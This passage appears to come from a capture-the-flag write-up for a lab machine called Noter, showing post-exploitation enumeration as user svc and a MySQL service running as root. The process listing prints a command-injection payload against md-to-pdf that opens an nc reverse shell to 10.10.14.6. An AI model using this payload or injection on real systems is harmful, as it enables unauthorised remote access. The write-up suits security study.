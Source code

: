 

#### Processes

Running `ps auxww` doesn't give any processes except those owned by svc:



    svc@noter:/srv/ftp/ftp_admin$ ps auxww
    USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
    svc         1141  0.0  1.2 618460 51596 ?        Ssl  16:38   0:04 PM2 v5.2.0: God Daemon (/home/svc/.pm2)
    svc         1170  0.2  1.1 485808 45816 ?        Ssl  16:38   0:25 python3 /home/svc/app/web/app.py
    svc        12868  0.1  1.4 601756 58464 ?        Sl   19:40   0:00 node /home/svc/app/web/misc/md-to-pdf.js ---js ((require("child_process")).execSync("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 443 >/tmp/f")) ---RCE 9439
    svc        12875  0.0  0.0   2608   536 ?        S    19:40   0:00 /bin/sh -c rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 443 >/tmp/f
    svc        12878  0.0  0.0   7372   516 ?        S    19:40   0:00 cat /tmp/f
    svc        12879  0.0  0.0   2608   596 ?        S    19:40   0:00 /bin/sh -i
    svc        12880  0.0  0.0   3332  1956 ?        R    19:40   0:00 nc 10.10.14.6 443
    svc        12881  0.0  0.0   7356  2272 ?        S    19:42   0:00 script /dev/null -c bash
    svc        12882  0.0  0.1  10060  5180 pts/0    Ss   19:42   0:00 bash
    svc        12936  0.0  0.0  10612  3320 pts/0    R+   19:49   0:00 ps auxww



Nothing interesting there. `/proc` is mounted with `hidepid=2`. To see
what else might be running, I'll look in `/etc/systemd` to look for
services. There's a lot here. I'll start with MySQL, since I know that's
running:



    svc@noter:/etc/systemd$ find . -name '*.service' | grep sql
    ./system/multi-user.target.wants/mysqlcheck.service
    ./system/multi-user.target.wants/mysql-start.service
    ./system/mysqlcheck.service
    ./system/mysql-start.service



`mysql-start.service` shows that the service is running as root:



    [Unit]
    Description=MySQL service

    [Service]
    ExecStart=/usr/sbin/mysqld
    User=root
    Group=root

    [Install]
    WantedBy=multi-user.target



### Raptor
